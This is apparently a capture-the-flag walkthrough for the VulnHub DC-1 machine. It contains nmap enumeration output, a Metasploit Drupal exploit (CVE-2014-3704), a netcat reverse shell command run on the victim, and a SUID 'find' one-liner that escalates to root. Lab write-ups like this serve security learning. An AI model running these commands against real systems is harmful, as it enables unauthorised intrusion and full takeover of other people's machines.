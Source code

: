 # [Machine](https://www.vulnhub.com/entry/dc-1,292/)

- # ENUM
	- ### nmap (`nmap -sV -A -p- -T4 DC-1`)
		- ```PORT      STATE SERVICE VERSION
			22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
			| ssh-hostkey: 
			|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
			|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
			|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
			80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
			|_http-server-header: Apache/2.2.22 (Debian)
			|_http-title: Welcome to Drupal Site | Drupal Site
			| http-robots.txt: 36 disallowed entries (15 shown)
			| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
			| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
			| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
			|_/LICENSE.txt /MAINTAINERS.txt
			|_http-generator: Drupal 7 (http://drupal.org)
			111/tcp   open  rpcbind 2-4 (RPC #100000)
			| rpcinfo: 
			|   program version    port/proto  service
			|   100000  2,3,4        111/tcp   rpcbind
			|   100000  2,3,4        111/udp   rpcbind
			|   100000  3,4          111/tcp6  rpcbind
			|   100000  3,4          111/udp6  rpcbind
			|   100024  1          48942/udp6  status
			|   100024  1          51029/udp   status
			|   100024  1          54730/tcp6  status
			|_  100024  1          54968/tcp   status
			54968/tcp open  status  1 (RPC #100024)
			Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel```

- # EXPLOITATION
	- Run metasploit (`msfconsole`)
		- Use `CVE-2014-3704` to open a Reverse Shell
		- Open a netcat (`nc -lvnp 4444` on our machine, `nc 192.168.1.144 4444 -e /bin/sh` on the victim)

- # PRIV ESC
	- Run `linpeas.sh`
		- `/usr/bin/find` running as root!
			- Check on GTFOBins:
				- `/usr/bin/find . -exec /bin/sh \; -quit`
					- We're root!